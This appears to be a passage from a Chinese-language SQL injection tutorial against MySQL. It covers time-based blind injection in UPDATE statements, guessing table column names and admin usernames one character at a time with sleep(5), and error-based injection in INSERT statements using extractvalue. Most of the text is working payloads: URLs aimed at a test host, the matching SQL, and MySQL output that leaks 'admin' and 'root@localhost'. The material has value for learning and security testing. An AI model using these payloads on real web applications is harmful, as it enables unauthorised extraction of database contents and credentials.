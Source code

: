 

猜test库 tdb_admin表的第一个字段名第一个字: UPDATE test SET content=if(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),1,1)='i',sleep(5),1) WHERE id=1;



猜test库 tdb_admin表的第一个字段名第二个字: UPDATE test SET content=if(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),2,1)='d',sleep(5),1) WHERE id=1;

## 0x07 爆内容

注意: limit 0 表示要显示那一条数据

limit 0,1 表示第一条

limit 1,1 表示第二条

```plain
mysql> SELECT username FROM test.tdb_admin limit 0,1;
+----------+
| username |
+----------+
| admin    |
+----------+
1 row in set (0.00 sec)
```

web语句: http://www.test.com/sql_save.php?data=if(substring((SELECT username FROM test.tdb_admin limit 0,1),1,1)='a',sleep(5),1)

读取某库某表某字段第一个字: UPDATE test SET content=if(substring((SELECT 字段名 FROM 库名.表名 limit 0,1),1,1)='a',sleep(5),1) WHERE id=1

读取某库某表某字段第二个字: UPDATE test SET content=if(substring((SELECT 字段名 FROM 库名.表名 limit 0,1),2,1)='a',sleep(5),1) WHERE id=1

# MySQL insert 爆错注入

## 0x00 概要

报错注入主要用于在页面中没有显示位，但是使用了echo mysql_error();输出了错误信息时使用。

记忆方式: extractvalue(1,(concat(0x7e,(payload),0x7e)))

## 0x01 爆数据库版本/连接用户/连接的数据库

web语句: http://www.test.com/sql_add.php?data=(extractvalue(1,concat(0x7e,(select user()),0x7e)))

数据库语句: INSERT INTO test (test) value ((extractvalue(1,concat(0x7e,(select user()),0x7e))));

```plain
mysql> INSERT INTO test (test) value ((extractvalue(1,concat(0x7e,(select user()),0x7e))));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```
